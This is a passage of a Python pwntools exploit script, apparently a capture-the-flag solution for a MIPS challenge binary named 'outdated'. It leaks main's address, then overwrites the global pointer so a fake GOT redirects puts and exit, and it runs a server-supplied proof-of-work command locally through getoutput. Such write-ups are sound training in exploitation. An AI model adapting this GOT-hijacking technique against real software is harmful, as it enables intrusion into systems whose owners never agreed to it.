 ```python
break *main+536
continue
"""

if args.REMOTE:
    p = remote("outdated.chals.sekai.team", 1337, ssl=True)
    
    ### SOLVE POW ###
    cmd = p.recvline().decode().strip().removeprefix("proof of work: ")
    print(f"Solving POW: {cmd}")
    answer = getoutput(cmd)
    p.sendlineafter(b"solution: ", answer.encode())
elif args.GDB:
    context.terminal = ["tmux", "splitw", "-h", "-l", "65%"]
    p = docker.process(['run','-i','--rm','-v','./:/target/ctf','-p','1234:1234',f'legoclones/mips-pwn:{build}','chroot','/target','/qemu','-g','1234','/ctf/outdated'])
    print("Remote debugging started...")
    gdb.attach(("127.0.0.1",1234), gdbscript=gs, exe=binary)
else:
    p = docker.process(['run','-i','--rm','-v','./:/target/ctf',f'legoclones/mips-pwn:{build}','chroot','/target','/qemu','/ctf/outdated'])


### GET EXE LEAK ###
p.recvuntil(b'Here')
main_addr = int(p.recvline().strip().split(b' ')[-1],16)
print(f"main() = {hex(main_addr)}")


### GP OVERWRITE 1 ###
"""
(using example addresses)
old $gp = 0xf98000, puts() = $gp-0x7f84, exit() = $gp-0x7fac, thanks = $gp-0x7fd0
new $gp = 0xf98090, puts() = 0xf9010c, exit() = 0xf900e4, thanks = 0xf900c0 (game_name @ 0xf900c0)

Our goal is to turn puts("Thanks for playing") into puts_blue(GOT[puts])
and exit(0) into main(0)
"""
fake_got1 = flat(
    # 0xf900c0
    p32(main_addr + 0x1f6ac - 0x118c), p32(0), p32(0), p32(0), # GOT[puts] - main = 0x1f6ac (offset for "Thanks" string)
    
    # 0xf900d0
    p32(0), p32(0), p32(0), p32(0),
    
    # 0xf900e0
    p32(0), p32(main_addr), p32(0), p32(0), # address for main() so exit() jumps back into main()
    
    # 0xf900f0
    p32(0), p32(0), p32(0), p32(0),

    # 0xf90100
    p32(0), p32(0), p32(0), p32(main_addr - 0x80), # offset from main() to puts_blue()
)
p.sendline(fake_got1)                                   # name (fake GOT in global)
p.sendline(b'-12')                                      # offset to stored $gp
p.sendline(b'32912')                                    # least significant 2 bytes of new $gp


### GET LIBC LEAK ###
p.recvuntil(b'in your game')
p.recvline()
```